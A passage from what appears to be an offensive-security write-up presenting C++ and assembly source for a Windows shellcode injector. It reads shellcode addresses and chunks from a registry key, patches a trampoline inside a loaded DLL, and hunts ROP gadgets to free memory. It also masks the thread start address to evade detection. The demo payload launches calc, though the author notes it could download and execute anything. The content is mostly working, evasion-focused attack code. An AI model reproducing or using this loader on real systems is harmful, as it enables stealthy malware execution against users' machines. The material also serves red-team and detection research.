    memcpyFunc = (memcpyType)GetSymbolAddress(msvcrtdll, (LPCSTR)memcpyName);
    memcmpFunc = (memcmpType)GetSymbolAddress(msvcrtdll, (LPCSTR)memcmpName);
#ifdef _DEBUG
    printfFunc = (printfType)GetSymbolAddress(msvcrtdll, (LPCSTR)printfName);
#endif

    // Advapi32.dll Loading
    advapi32dll = (HMODULE)GetModule(ADVAPI32DLL_HASH);
    if (0 == (int)advapi32dll) {
        advapi32dll = LoadLibraryFunc((LPCWSTR)advapi32dllName);
    }

    // Advapi32.dll exports
    RegOpenKeyFunc = (RegOpenKeyType)GetSymbolAddress(advapi32dll, (LPCSTR)RegOpenKeyName);
    RegGetValueFunc = (RegGetValueType)GetSymbolAddress(advapi32dll, (LPCSTR)RegGetValueName);
    RegSetValueExFunc = (RegSetValueExType)GetSymbolAddress(advapi32dll, (LPCSTR)RegSetValueName);
    RegCloseKeyFunc = (RegCloseKeyType)GetSymbolAddress(advapi32dll, (LPCSTR)RegCloseKeyName);

    result = RegOpenKeyFunc(HKEY_CURRENT_USER, (LPCWSTR)regKey, &hKey);
    if (result != ERROR_SUCCESS) {
        return EXIT_FAILURE;
    }

    // Recovering Address of Shellcode Written in the DLL
    ULONG64 shellcodeAddress = 0;
    DWORD dwSize = sizeof(shellcodeAddress);

    value = (LPCTSTR)shValue;
    if (RegGetValueFunc(hKey, NULL, value, RRF_RT_QWORD, NULL, &shellcodeAddress, &dwSize) == ERROR_SUCCESS) {
        if (0 == shellcodeAddress) {
            return EXIT_FAILURE;
        }
    }

    // Recovering Size of Shellcode Written in the DLL
    DWORD shSize;
    value = (LPCTSTR)shsValue;
    dwSize = sizeof(shSize);

    RegGetValueFunc(hKey, NULL, value, RRF_RT_DWORD, NULL, &shSize, &dwSize);

    // Recovering Address of Trampoline Written in the DLL
    ULONG64 trampolineAddress = 0;
    dwSize = sizeof(trampolineAddress);
    value = (LPCTSTR)trpValue;
    if (RegGetValueFunc(hKey, NULL, value, RRF_RT_QWORD, NULL, &trampolineAddress, &dwSize) == ERROR_SUCCESS) {
        if (0 == trampolineAddress) {
            return EXIT_FAILURE;
        }
    }

    // We also release the mutex
    ReleaseMutexFunc(hMutex);

    // We need to close the key handle
    RegCloseKeyFunc(hKey);

    // Allocating space on the heap
    UINT nPages = 0;
    UINT nBytes = 0;
    while (nBytes <= shSize) {
        nBytes += 4096;
        nPages++;
    }
    DWORD rxMemoryRegionSize = (nPages + 1) * PAGE_SIZE * 4;
    DWORD ropInjectorOffset = (nPages + 1) * PAGE_SIZE * 2;

#ifdef _DEBUG
    printfFunc("Shellcode size: %u\n", shSize);
    printfFunc("RX memory size: %u\n", rxMemoryRegionSize);
#endif

#ifdef USE_ISOLATED MEMORY
    // Using isolated memory for ROP injector
    // We allocate memory for the shellcode, then allocate memory for the ROP
    LPVOID address = VirtualAllocFunc(NULL, shSize, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
#else    
    // Using shared memory for ROP injector
    // We allocate a bigger chunk of memory for the shellcode
    // so we can use the same to store the ROP injector
    LPVOID address = VirtualAllocFunc(NULL, rxMemoryRegionSize, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
#endif

#ifdef _DEBUG
    if (NULL == address) {
        printfFunc("Couldn't allocate address\n");
        return EXIT_FAILURE;
    }
#endif

#ifdef USE_ISOLATED MEMORY
    LPVOID ropInjectorAddress = VirtualAllocFunc(NULL, N_ROP_GADGETS * MOV_SPACE + 1, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);

#ifdef ENABLE_NULL_CHECKS
    if (NULL == ropInjectorAddress) {
        return EXIT_FAILURE;
    }
#endif


#endif
    LPVOID ropInjectorAddress = (LPVOID)((UINT64)address + (UINT64)(ropInjectorOffset));

#ifdef _DEBUG
    printfFunc("RX Memory start address: 0x%llx\n", (ULONG64)address);
    printfFunc("RX Memory end address: 0x%llx\n", (ULONG64)address + rxMemoryRegionSize);
#endif

    /*
    
    The following code takes care of identifying the relevant gadgets for our ROP chain
    It also thinks about JIT compile the ROP injector for us to execute.
    
    */

    // Our ROP will be constituted by 7 chunks of 8 bytes each
    UCHAR ropChain[N_ROP_GADGETS * 8] = {0};

    UINT64 moduleAddresses[3] = {(UINT64)msvcrtdll, (UINT64)ntdll, (UINT64)kernel32dll};

    UINT found[N_ROP_GADGETS] = { FALSE };
    UINT moduleIndex = 0;

    /*
   <<POP RCX; RET;> GADGET>
   <<RX-SECTION-ADDRESS> REVERSED>
   <<POP RDX; RET;> GADGET>
   \x00\x00\x00\x00\x00\x00\x00\x00
   <<POP R8; RET;> GADGET>
   \x00\x00\x08\x00\x00\x00\x00\x00
   <<VirtualFree> ADDRESS-OF>
   */

    // Some indexes are static and can be populated immediately
    // The second chunk is the address to free
    _Hton((ULONG64)address, ropChain, 1 * 8);
    found[1] = TRUE;
    // The fourth chunk is 0
    found[3] = TRUE;
    // The sixth chunk is MEM_RELEASE
    ropChain[5 * 8 + 1] = 0x80;
    found[5] = TRUE;

    // The last chunk is VirtualFree address
    _Hton((ULONG64)VirtualFreeFunc, ropChain, 6 * 8);
    found[6] = TRUE;

    while (!Finished(found) && moduleIndex < sizeof(moduleAddresses)) {

        // We select a module to search in and start
        LPBYTE moduleMath = (LPBYTE)moduleAddresses[moduleIndex];
        MEMORY_BASIC_INFORMATION memInfo = { 0 };

        // Query memory to know the size of the module
        while (VirtualQueryFunc((PVOID)moduleMath, &memInfo, sizeof(memInfo)) != 0) {
            if (memInfo.Protect != PAGE_EXECUTE_READ && memInfo.Protect != PAGE_EXECUTE_READWRITE) {
                moduleMath += memInfo.RegionSize;
                continue;
            }
            LPVOID gadget;

            for (UINT x = 0; x < memInfo.RegionSize; x++) {
                if (memcmpFunc(moduleMath + x, POP_RCX_RET, 2) == 0 && !found[0]) // POP RCX, RET
                {
                    _Hton((ULONG64)moduleMath + x, ropChain, 0 * 8);
                    found[0] = TRUE;
                }
                else if (memcmpFunc(moduleMath + x, POP_RDX_RET, 2) == 0 && !found[2]) // POP RDX, RET
                {
                    _Hton((ULONG64)moduleMath + x, ropChain, 2 * 8);
                    found[2] = TRUE;
                }
                else if (memcmpFunc(moduleMath + x, POP_R8__RET, 3) == 0 && !found[4]) // POP R8, RET
                {
                    _Hton((ULONG64)moduleMath + x, ropChain, 4 * 8);
                    found[4] = TRUE;
                }
            }
            moduleMath += memInfo.RegionSize;
        }
        moduleIndex++;
    }

#ifdef _DEBUG
    printfFunc("--- Printing ROP chain\n");
    for (int kk = 1; kk <= sizeof(ropChain); kk++) {

        printfFunc("%02x", ropChain[kk - 1]);

        if (kk % 8 != 0 && kk % 4 == 0) {
            printfFunc("`");

        }
        if (kk % 8 == 0) {
            printfFunc("\n");
        }
    }
    printfFunc("\n");
    printfFunc("--- END\n");
#endif


    /*
        Now, if the chain was found, we would still need to pack everything into 
        the injector

        The size of the injector should be the number of chunks * the size of a MOV + PUSH instruction + 1 RET
    */
#define SLEEP_ROUTINE_SIZE 42
    UCHAR injector[N_ROP_GADGETS * MOV_SPACE + 1] = { 0 };

    UCHAR SleepRoutine[] = { 
        0x48, 0x31, 0xc9, 0xb9, 0x10, 0x27, 0x00, 0x00, 0x57, 0x48, 
        0x89, 0xe7, 0x48, 0x83, 0xe4, 0xf0, 0x48, 0x83, 0xec, 0x40, 
        0x49, 0xbf, 
                
        0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,

        0x41, 0xff, 0xd7, 0x48, 0x83, 0xc4, 0x40, 0x48, 0x89, 
        0xfc, 0x5f, 0x90 
    };

    _Hton((ULONG64)SleepFunc, SleepRoutine, 22);

    for (int i = 0; i < N_ROP_GADGETS; i++) {
        _ConstructPushWithBytes(ropChain, injector, (N_ROP_GADGETS - i - 1) * 8, i * MOV_SPACE);
    }
    injector[N_ROP_GADGETS * MOV_SPACE] = 0xc3; // RET

#ifdef _DEBUG
    printfFunc("--- Printing ROP injector\n");
    for (int kk = 1; kk <= sizeof(injector); kk++) {

        printfFunc("%02x", injector[kk - 1]);

        if (kk % 12 == 0) {
            printfFunc("\n");
        }
    }
    printfFunc("\n");
    printfFunc("--- END\n");
#endif


    /**
    * The Following code copy the main shellcode in the previously allocated RX section
    * there for execution. It also patch the relevant trampoline to ensure the started  
    * thread has a return address in the hijacked module, rather than in the unbacked memory. 
    */

    // Copy shellcode into memory
    memcpyFunc(address, (void*)shellcodeAddress, shSize);

    // Copy ROP injector into memory
    memcpyFunc(ropInjectorAddress, SleepRoutine, SLEEP_ROUTINE_SIZE);
    memcpyFunc((LPVOID)((ULONG64)ropInjectorAddress + SLEEP_ROUTINE_SIZE), injector, N_ROP_GADGETS * MOV_SPACE + 1);

#ifdef _DEBUG
    printfFunc("Shellcode address: 0x%llx\n", (ULONG64)address);
    printfFunc("ROP Injector address: 0x%llx\n", (ULONG64)ropInjectorAddress);
#endif

    /*
        Patching Trampoline to JMP to the shellcode in memory
    */

    UINT64 target = (UINT64)address;

    UCHAR patch[13] = { 0 };
    // mov r15, <address>
    patch[0] = 0x49;
    patch[1] = 0xBF;
    // Hton Trampoline Address
    patch[2] = target & 0x00000000000000ff;
    patch[3] = (target & 0x000000000000ff00) >> 8;
    patch[4] = (target & 0x0000000000ff0000) >> 16;
    patch[5] = (target & 0x00000000ff000000) >> 24;
    patch[6] = (target & 0x000000ff00000000) >> 32;
    patch[7] = (target & 0x0000ff0000000000) >> 40;
    patch[8] = (target & 0x00ff000000000000) >> 48;
    patch[9] = (target & 0xff00000000000000) >> 56;
    // jmp r15
    patch[10] = 0x41;
    patch[11] = 0xFF;
    patch[12] = 0xE7;

    DWORD oldProtect;

    // Making DLL memory writable
    VirtualProtectFunc((LPVOID)trampolineAddress, 13, PAGE_EXECUTE_READWRITE, &oldProtect);

    memcpyFunc((LPVOID)trampolineAddress, patch, 13);

    // Restore DLL protection
    VirtualProtectFunc((LPVOID)trampolineAddress, 13, PAGE_EXECUTE_READ, &oldProtect);

#ifdef USE_ISOLATED_MEMORY
    // Making the memory region RX
    // Copying shellcode in the HEAP (non-opsec safe) -> This is not backed up on disk
    VirtualProtectFunc(address, shSize, PAGE_EXECUTE_READ, &oldProtect);

    // Making the memory region RX
    // Copying shellcode in the HEAP (non-opsec safe) -> This is not backed up on disk
    VirtualProtectFunc(ropInjectorAddress, N_ROP_GADGETS * MOV_SPACE + 1, PAGE_EXECUTE_READ, &oldProtect);
#else
    VirtualProtectFunc(address, rxMemoryRegionSize, PAGE_EXECUTE_READ, &oldProtect);

#endif
    // Starting thread on the trampoline
    DWORD threadID;
    
#ifdef FREE

#ifdef _DEBUG
    printfFunc("Creating Thread... \n");
    HANDLE hThreadFree = CreateThreadFunc(NULL, 0, (LPTHREAD_START_ROUTINE)ropInjectorAddress, NULL, 0x00000000, &threadID);
#else
    HANDLE hThreadFree = CreateThreadFunc(NULL, 0, (LPTHREAD_START_ROUTINE)ropInjectorAddress, NULL, 0x00000000, &threadID);
#endif
    SleepFunc(1000);
#ifdef _DEBUG
    printfFunc("Created Thread: 0x%llx\n", (ULONG64)hThreadFree);
#endif

#ifdef SAVE_THREAD
    result = RegSetValueExFunc(hKey, (LPCWSTR)tiValue, 0, REG_DWORD, (CONST BYTE*) & threadID, sizeof(threadID));
#endif

#endif

#ifndef _DEBUG

    HANDLE hThread = CreateThreadFunc(NULL, 0, (LPTHREAD_START_ROUTINE)trampolineAddress, NULL, 0, &threadID);
    WaitForSingleObjectFunc(hThread, 1000);
#endif

    return 0;
}

VOID _ConstructPushWithBytes(UCHAR* source, UCHAR* destination, UINT sourceStart, UINT destStart) {

    // mov r15, <address>
    destination[destStart] = 0x49;
    destination[destStart + 1] = 0xBF;
    
    for (int i = 0; i < 8; i++) {
        destination[destStart + 2 + i] = source[sourceStart + i];
    }
    // push r15
    destination[destStart + 10] = 0x41;
    destination[destStart + 11] = 0x57;
}

VOID _Hton(ULONG64 value, UCHAR* result, UINT start)
{
    result[start] = value & 0x00000000000000ff;
    result[start + 1] = (value & 0x000000000000ff00) >> 8;
    result[start + 2] = (value & 0x0000000000ff0000) >> 16;
    result[start + 3] = (value & 0x00000000ff000000) >> 24;
    result[start + 4] = (value & 0x000000ff00000000) >> 32;
    result[start + 5] = (value & 0x0000ff0000000000) >> 40;
    result[start + 6] = (value & 0x00ff000000000000) >> 48;
    result[start + 7] = (value & 0xff00000000000000) >> 56;
}

BOOL Finished(UINT x[]) {
    UINT aLength = sizeof(x);
    UINT count = 0;
    
    for (int i = 0; i < aLength; i++) {
        if (x[i] >= 1) {
            count++;
        }
    }
    return count == aLength;
}
```


###### Shellcode 2 - Trampoline

This trampoline shellcode is needed just as a fake start address for our new thread, if that's not clear
immediately, it will be during the demo. The key point to remember is that this trampoline will be overwritten 
by the "restore" shellcode, while the real shellcode, copied on the heap, won't.

```asm
mov r15, <ADDRESS-OF-HEAP-RX-MEMORY>
jmp r15
```

This "trampoline", however, can't be assembled before-hand, as we need to know the address of the RX memory
region, that would be allocated at runtime. To solve the problem, we generate the shellcode in real time. 

```
UCHAR patch[13] = { 0 };
// mov r15, <address>
patch[0] = 0x49;
patch[1] = 0xBF;
// Hton Trampoline Address
patch[2] = target & 0x00000000000000ff;
patch[3] = (target & 0x000000000000ff00) >> 8;
patch[4] = (target & 0x0000000000ff0000) >> 16;
patch[5] = (target & 0x00000000ff000000) >> 24;
patch[6] = (target & 0x000000ff00000000) >> 32;
patch[7] = (target & 0x0000ff0000000000) >> 40;
patch[8] = (target & 0x00ff000000000000) >> 48;
patch[9] = (target & 0xff00000000000000) >> 56;
// jmp r15
patch[10] = 0x41;
patch[11] = 0xFF;
patch[12] = 0xE7;
```

This trick, in practice, mask the thread source when the shellcode is later executed as a thread,
as it can be observed below:


###### Shellcode 3 - Main Logic

The main logic of our shellcode should be where we actually execute the code we want, we download and
execute, or... whatever. As this is just a PoC and I like the calculator, the logic would be as simple
as:

```
CHAR WinExecCommand[] = { 'c', 'm', 'd', ' ', '/', 'c', ' ', 'c', 'a', 'l', 'c', '\0' };
WinExecFunc((LPCSTR)WinExecCommand, 0);
```

If you want to check the full implementation, check below:


```cpp
#include <stdio.h>
#include "addresshunter.h"

#define USE_REGISTRY_FOR_DLL
#define NO_LIB_RELOAD
#define SHORT_SLEEP 2000
#define LONG_SLEEP 15000

typedef HANDLE(WINAPI* OpenThreadType)(DWORD dwDesiredAccess, BOOL  bInheritHandle, DWORD dwThreadId);
typedef DWORD(WINAPI* ResumeThreadType)(HANDLE hThread);
#ifdef WPM
typedef BOOL(WINAPI* WriteProcessMemoryType)(HANDLE hProcess, LPVOID lpBaseAddress, LPCVOID lpBuffer, SIZE_T nSize, SIZE_T* lpNumberOfBytesWritten);
#endif
typedef LSTATUS(WINAPI* RegOpenKeyType)(HKEY hKey, LPCWSTR lpSubKey, PHKEY phkResult);
typedef LSTATUS(WINAPI* RegDeleteKeyType)(HKEY hKey, LPCWSTR lpSubKey);
typedef LSTATUS(WINAPI* RegGetValueType)(HKEY hkey, LPCWSTR lpSubKey, LPCTSTR lpValue, DWORD dwFlags, LPDWORD pdwType, PVOID pvData, LPDWORD pcbData);
typedef LSTATUS(WINAPI* RegCloseKeyType)(HKEY hKey);
typedef BOOL(WINAPI* VirtualProtectType)(LPVOID lpAddress, SIZE_T dwSize, DWORD flNewProtect, PDWORD lpflOldProtect);
typedef BOOL(WINAPI* FreeLibraryType)(HMODULE hModule);
typedef DWORD(WINAPI* WaitForSingleObjectType)(HANDLE hHandle, DWORD dwMilliseconds);

typedef HANDLE(WINAPI* OpenMutexType)(DWORD dwDesiredAccess, BOOL bInheritHandle, LPCWSTR lpName);
typedef BOOL(WINAPI* CloseHandleType)(HANDLE hObject);

typedef void* (WINAPIV* mallocType)(size_t size);
typedef void* (WINAPIV* memsetType)(void* dest, int c, size_t count);
typedef void* (WINAPIV* memcpyType)(void* dest, const void* src, size_t count);
typedef void (WINAPIV* freeType)(void* memblock);
#ifdef _DEBUG
typedef void (WINAPIV* printfType)(const char* fmt, ...);
#endif
typedef HMODULE(WINAPI* LoadLibraryType)(LPCWSTR lpLibFileName);
typedef void (WINAPI* SleepType)(DWORD dwMilliseconds);
typedef UINT(WINAPI* WinExecType)(LPCSTR lpCmdLine, UINT uCmdShow);
typedef void (WINAPI* ExitThreadType)(DWORD dwExitCode);


int main() {

    UCHAR* cbBuf;
    UCHAR* tmpBuf;
    HKEY hKey;
    WCHAR regKey[] = { 'S', 'O', 'F', 'T', 'W', 'A', 'R', 'E', '\\', 'L', 'a', 'm','w','a', 'r', 'e', '\0' };
    LPCTSTR value;

    WCHAR saValue[] = { 'S', 't', 'a', 'r', 't', 'A', 'd', 'd', 'r', 'e', 's','s', '\0' };
    WCHAR shValue[] = { 'S', 'C', 'o', 'd', 'e', 'A', 'd', 'd', 'r', 'e', 's','s', '\0' };
    WCHAR shsValue[] = { 'S', 'C', 'o', 'd', 'e', 'S', 'i', 'z', 'e', '\0' };
    WCHAR sbValue[] = { 'S', 'a', 'v', 'e', 'd', 'B', 'y', 't', 'e', 's', '\0' };
    WCHAR tiValue[] = { 'T', 'h', 'r', 'e', 'a', 'd', 'I', 'd', '\0' };
    WCHAR nChunksValue[] = { 'C', 'h', 'u', 'n', 'k', 's', '\0' };

    // Mutex
    WCHAR mutexName[] = { 'F', 'u', 'n', 'H', 'i', 'j', 'a', 'c', 'k', '\0' };

    // Symbols from MSVCRT
    CHAR mallocName[] = { 'm', 'a', 'l', 'l', 'o', 'c', '\0' };
    CHAR memsetName[] = { 'm', 'e', 'm', 's', 'e', 't', '\0' };
    CHAR memcpyName[] = { 'm', 'e', 'm', 'c', 'p', 'y', '\0' };
    CHAR freeName[] = { 'f', 'r', 'e', 'e', '\0' };
#ifdef _DEBUG
    CHAR printfName[] = { 'p', 'r', 'i', 'n', 't', 'f', '\0' };
#endif

    // Symbols from KERNEL32
    CHAR SleepName[] = { 'S', 'l', 'e', 'e', 'p', '\0' };
    CHAR LoadLibraryName[] = { 'L', 'o', 'a', 'd', 'L', 'i', 'b', 'r', 'a', 'r', 'y', 'W', '\0' };
    CHAR RegOpenKeyName[] = { 'R', 'e', 'g', 'O', 'p', 'e', 'n', 'K', 'e', 'y', 'W', '\0' };
    CHAR RegDeleteKeyName[] = { 'R', 'e', 'g', 'D', 'e', 'l', 'e', 't', 'e', 'K', 'e', 'y', 'W', '\0' };
    CHAR RegGetValueName[] = { 'R', 'e', 'g', 'G', 'e', 't', 'V', 'a', 'l', 'u', 'e', 'W', '\0' };
    CHAR OpenThreadName[] = { 'O', 'p', 'e', 'n', 'T', 'h', 'r', 'e', 'a', 'd', '\0' };
    CHAR ResumeThreadName[] = { 'R', 'e', 's', 'u', 'm', 'e', 'T', 'h', 'r', 'e', 'a', 'd', '\0' };
    CHAR OpenMutexName[] = { 'O', 'p', 'e', 'n', 'M', 'u', 't', 'e', 'x', 'W', '\0' };
    CHAR CloseHandleName[] = { 'C', 'l', 'o', 's', 'e', 'H', 'a', 'n', 'd', 'l', 'e', '\0' };
    CHAR RegCloseKeyName[] = { 'R', 'e', 'g', 'C', 'l', 'o', 's', 'e', 'K', 'e', 'y', '\0' };
    CHAR WinExecName[] = { 'W', 'i', 'n', 'E', 'x', 'e', 'c', '\0' };
    CHAR VirtualProtectName[] = { 'V', 'i', 'r', 't', 'u', 'a', 'l', 'P', 'r', 'o', 't', 'e', 'c', 't', '\0' };
    CHAR WaitForSingleObjectName[] = { 'W', 'a', 'i', 't', 'F', 'o', 'r', 'S', 'i', 'n', 'g', 'l', 'e', 'O', 'b', 'j', 'e', 'c', 't', '\0' };
    CHAR ExitThreadName[] = { 'E', 'x', 'i', 't', 'T', 'h', 'r', 'e', 'a', 'd', '\0' };


#ifndef NO_LIB_RELOAD
    CHAR FreeLibraryName[] = { 'F', 'r', 'e', 'e', 'L', 'i', 'b', 'r', 'a', 'r', 'y', '\0' };
#endif
#ifdef WPM
    CHAR WriteProcessMemoryName[] = { 'W', 'r', 'i', 't', 'e', 'P', 'r', 'o', 'c', 'e', 's', 's', 'M', 'e', 'm', 'o', 'r', 'y', '\0' };
#endif

    // Command to launch
    CHAR WinExecCommand[] = { 'c', 'm', 'd', ' ', '/', 'c', ' ', 'c', 'a', 'l', 'c', '\0' };


#ifdef USE_REGISTRY_FOR_DLL
    // Chunk values -- Pretty unelegant
    WCHAR chunkValue1[] = { 'S', 'C', '1', '\0' };
    WCHAR chunkValue2[] = { 'S', 'C', '2', '\0' };
    WCHAR chunkValue3[] = { 'S', 'C', '3', '\0' };
#else
    WCHAR savedDllAddress[] = { 'D', 'l', 'l', '\0' };
#endif

    // DLL to load via LoadLibraryA
    WCHAR msvcrtdllName[] = { 'm', 's', 'v', 'c', 'r', 't', '.', 'd', 'l', 'l', '\0' };
    WCHAR advapi32dllName[] = { 'a', 'd', 'v', 'a', 'p', 'i', '3', '2', '.', 'd', 'l', 'l', '\0' };
    WCHAR rpcrt4dllName[] = { 'r', 'p', 'c', 'r', 't', '4', '.', 'd', 'l', 'l', '\0' };

    // DLLs to dynamically load during runtime
    HMODULE kernel32dll, msvcrtdll, advapi32dll;
    // Symbols to dynamically resolve from dll during runtime
    LoadLibraryType LoadLibraryFunc;
    OpenThreadType OpenThreadFunc;
    ResumeThreadType ResumeThreadFunc;
    ExitThreadType ExitThreadFunc;


#ifdef WPM
    WriteProcessMemoryType WriteProcessMemoryFunc;
#endif
    VirtualProtectType VirtualProtectFunc;
    FreeLibraryType FreeLibraryFunc;
    WaitForSingleObjectType WaitForSingleObjectFunc;

    RegGetValueType RegGetValueFunc;
    RegOpenKeyType RegOpenKeyFunc;
    RegDeleteKeyType RegDeleteKeyFunc;
    mallocType mallocFunc;
    memsetType memsetFunc;
    memcpyType memcpyFunc;
    freeType freeFunc;
#ifdef _DEBUG
    printfType printfFunc;
#endif
    SleepType SleepFunc;
    OpenMutexType OpenMutexFunc;
    CloseHandleType CloseHandleFunc;
    RegCloseKeyType RegCloseKeyFunc;
    WinExecType WinExecFunc;

    // kernel32.dll exports
    kernel32dll = (HMODULE)GetModule(KERNEL32DLL_HASH);

    OpenThreadFunc = (OpenThreadType)GetSymbolAddress(kernel32dll, (LPCSTR)OpenThreadName);
    LoadLibraryFunc = (LoadLibraryType)GetSymbolAddress(kernel32dll, (LPCSTR)LoadLibraryName);
    ResumeThreadFunc = (ResumeThreadType)GetSymbolAddress(kernel32dll, (LPCSTR)ResumeThreadName);
#ifdef WPM
    WriteProcessMemoryFunc = (WriteProcessMemoryType)GetSymbolAddress(kernel32dll, (LPCSTR)WriteProcessMemoryName);
#endif
    VirtualProtectFunc = (VirtualProtectType)GetSymbolAddress(kernel32dll, (LPCSTR)VirtualProtectName);
    SleepFunc = (SleepType)GetSymbolAddress(kernel32dll, (LPCSTR)SleepName);
    OpenMutexFunc = (OpenMutexType)GetSymbolAddress(kernel32dll, (LPCSTR)OpenMutexName);
    CloseHandleFunc = (CloseHandleType)GetSymbolAddress(kernel32dll, (LPCSTR)CloseHandleName);
    WinExecFunc = (WinExecType)GetSymbolAddress(kernel32dll, (LPCSTR)WinExecName);
    WaitForSingleObjectFunc = (WaitForSingleObjectType)GetSymbolAddress(kernel32dll, (LPCSTR)WaitForSingleObjectName);
    ExitThreadFunc = (ExitThreadType)GetSymbolAddress(kernel32dll, (LPCSTR)ExitThreadName);

#ifndef NO_LIB_RELOAD
    FreeLibraryFunc = (FreeLibraryType)GetSymbolAddress(kernel32dll, (LPCSTR)FreeLibraryName);
#endif


    // msvcrt.dll exports
    msvcrtdll = (HMODULE)GetModule(MSVCRTDLL_HASH);

    if (0 == (int)msvcrtdll) {
        msvcrtdll = LoadLibraryFunc((LPCWSTR)msvcrtdllName);

    }
    mallocFunc = (mallocType)GetSymbolAddress(msvcrtdll, (LPCSTR)mallocName);
    memsetFunc = (memsetType)GetSymbolAddress(msvcrtdll, (LPCSTR)memsetName);
    memcpyFunc = (memcpyType)GetSymbolAddress(msvcrtdll, (LPCSTR)memcpyName);
    freeFunc = (freeType)GetSymbolAddress(msvcrtdll, (LPCSTR)freeName);
#ifdef _DEBUG
    printfFunc = (printfType)GetSymbolAddress(msvcrtdll, (LPCSTR)printfName);
#endif

#ifdef _DEBUG
    printfFunc("Located msvcrt `malloc` at 0x%llx\n", (ULONG64)mallocFunc);
    printfFunc("Located msvcrt `memset` at 0x%llx\n", (ULONG64)memsetFunc);
    printfFunc("Located msvcrt `free` at 0x%llx\n", (ULONG64)freeFunc);
#endif

#ifdef _DEBUG
    printfFunc("Located Kernel32 `LoadLibrary` at 0x%llx\n", (ULONG64)LoadLibraryFunc);
    printfFunc("Located Kernel32 `OpenThread` at 0x%llx\n", (ULONG64)OpenThreadFunc);
    printfFunc("Located Kernel32 `ResumeThread` at 0x%llx\n", (ULONG64)ResumeThreadFunc);
    printfFunc("Located Kernel32 `Sleep` at 0x%llx\n", (ULONG64)SleepFunc);
#ifdef WPM
    printfFunc("Located Kernel32 `WriteProcessMemory` at 0x%llx\n", (ULONG64)WriteProcessMemoryFunc);
#endif

#endif

    // advapi32.dll exports

#ifdef _DEBUG
    printfFunc("Locating ADVAPI32 functions\n");
#endif
    advapi32dll = (HMODULE)GetModule(ADVAPI32DLL_HASH);
#ifdef _DEBUG
    printfFunc("ADVAPI32 handle: %u\n", (int)advapi32dll);
#endif

    if (0 == (int)advapi32dll) {
#ifdef _DEBUG
        printfFunc("Failed to find Advapi32 handle: %u\n", (int)advapi32dll);
#endif
        advapi32dll = LoadLibraryFunc((LPCWSTR)advapi32dllName);
#ifdef _DEBUG
        printfFunc("Advapi32 handle: %u\n", (int)advapi32dll);
#endif
    }
    RegOpenKeyFunc = (RegOpenKeyType)GetSymbolAddress(advapi32dll, (LPCSTR)RegOpenKeyName);
    RegDeleteKeyFunc = (RegDeleteKeyType)GetSymbolAddress(advapi32dll, (LPCSTR)RegDeleteKeyName);
    RegGetValueFunc = (RegGetValueType)GetSymbolAddress(advapi32dll, (LPCSTR)RegGetValueName);
    RegCloseKeyFunc = (RegCloseKeyType)GetSymbolAddress(advapi32dll, (LPCSTR)RegCloseKeyName);

#ifdef _DEBUG
    printfFunc("Located Advapi32 `RegOpenKey` at 0x%llx\n", (ULONG64)RegOpenKeyFunc);
    printfFunc("Located Advapi32 `RegDeleteKey` at 0x%llx\n", (ULONG64)RegDeleteKeyFunc);
    printfFunc("Located Advapi32 `RegGetValue` at 0x%llx\n", (ULONG64)RegGetValueFunc);
#endif


#ifdef DEBUG_SLEEP
    // Sync sleep
    SleepFunc(SHORT_SLEEP);
#endif // !DEBUG_SLEEP


    // The mutex should be open now if we passed through the loader, otherwise, we should not execute this
    HANDLE mutex = OpenMutexFunc(MUTEX_ALL_ACCESS, TRUE, (LPCWSTR)mutexName);
    if (mutex == NULL) {
#ifndef IGNORE_MUTEX
        return EXIT_FAILURE;
#endif
    }

    LONG result;

    ULONG64 startAddress = 0;
    DWORD dwSize = sizeof(startAddress);

#ifdef _DEBUG
    printfFunc("Calling `RegOpenKey`\n");
#endif
    result = RegOpenKeyFunc(HKEY_CURRENT_USER, (LPCWSTR)regKey, &hKey);
    if (result != ERROR_SUCCESS) {
#ifdef _DEBUG
        printfFunc("Key not found.\n");
#endif
    }

#ifdef _DEBUG
    printfFunc("Calling `RegGetValue`\n");
#endif

    value = (LPCTSTR)saValue;
    if (RegGetValueFunc(hKey, NULL, value, RRF_RT_QWORD, NULL, &startAddress, &dwSize) == ERROR_SUCCESS) {
        if (0 == startAddress) {
            return EXIT_FAILURE;
        }
    }

#ifdef _DEBUG
    printfFunc("Using start address: 0x%llx\n", startAddress);
#endif

    UINT shellcodeSize = 0;
    dwSize = sizeof(shellcodeSize);
    value = (LPCTSTR)sbValue;
    result = RegGetValueFunc(hKey, NULL, value, RRF_RT_DWORD, NULL, &shellcodeSize, &dwSize);
    if (ERROR_SUCCESS != result || 0 == shellcodeSize) {
        return EXIT_FAILURE;
    }

#ifdef _DEBUG
    printfFunc("N bytes to restore: %u\n", shellcodeSize);
#endif

#ifdef USE_REGISTRY_FOR_DLL

    cbBuf = (UCHAR*)mallocFunc(shellcodeSize * sizeof(UCHAR));
    if (NULL == cbBuf) {
        return EXIT_FAILURE;
    }
    memsetFunc(cbBuf, 0, shellcodeSize);

    UINT nChunks = 0;
    UINT remainingBytes = shellcodeSize;
    UINT copyingNow = CHUNKSIZE;
    value = (LPCTSTR)nChunksValue;

    int counter = 0;

    if (RegGetValueFunc(hKey, NULL, value, RRF_RT_DWORD, NULL, &nChunks, &dwSize) == ERROR_SUCCESS) {
        if (0 == nChunks) {
            return EXIT_FAILURE;
        }

#ifdef _DEBUG
        printfFunc("Number of chunks to retrieve: %u\n", nChunks);
#endif

        for (int i = 0; i < nChunks; i++) {
#ifdef _DEBUG
            printfFunc("Chunk to retrieve: %u\n", i);
#endif
            copyingNow = remainingBytes >= CHUNKSIZE ? CHUNKSIZE : remainingBytes;

            tmpBuf = (UCHAR*)mallocFunc(copyingNow * sizeof(UCHAR));
            if (NULL == tmpBuf) {
                i--;
                continue;
            }
            memsetFunc(tmpBuf, 0, copyingNow);

            if (i == 0) {
                value = (LPCTSTR)chunkValue1;
            }
            else if (i == 1) {
                value = (LPCTSTR)chunkValue2;
            }
            else {
                value = (LPCTSTR)chunkValue3;
            }

            // We retrieve the saved chunk of bytes
            dwSize = copyingNow;
            RegGetValueFunc(hKey, NULL, value, RRF_RT_REG_BINARY, NULL, tmpBuf, &dwSize);

            // We copy the saved bytes into the main buffer
            for (int j = 0; j < copyingNow; j++) {
                cbBuf[(CHUNKSIZE * i) + j] = tmpBuf[j];
                counter++;
            }
            // memcpyFunc(cbBuf + CHUNKSIZE * i, tmpBuf, copyingNow);
            // We update the remaining bytes
